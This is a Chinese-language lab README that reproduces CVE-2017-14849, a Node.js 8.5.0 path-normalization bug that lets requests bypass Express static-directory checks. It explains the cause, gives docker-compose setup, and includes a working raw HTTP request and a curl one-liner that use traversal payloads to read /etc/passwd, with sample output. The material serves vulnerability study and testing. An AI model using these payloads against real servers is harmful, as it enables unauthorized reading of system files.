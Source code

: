 # Node.js 目录穿越漏洞（CVE-2017-14849）

## 漏洞原理

参考文档：

 - https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
 - https://security.tencent.com/index.php/blog/msg/121

原因是 Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。

express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express在判断path是否超出静态目录范围时，就用到了`normalize`函数，上述BUG导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有express，更有待深入挖掘。不过因为这个BUG是node 8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

## 漏洞复现

编译及运行环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:3000/`即可查看到一个web页面，其中引用到了文件`/static/main.js`，说明其存在静态文件服务器。

发送如下数据包，即可读取passwd：

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

![](1.png)

# Ez exploit with curl

```
$ curl "http://localhost:3000/static/..%2F..%2F..%2Fa%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```
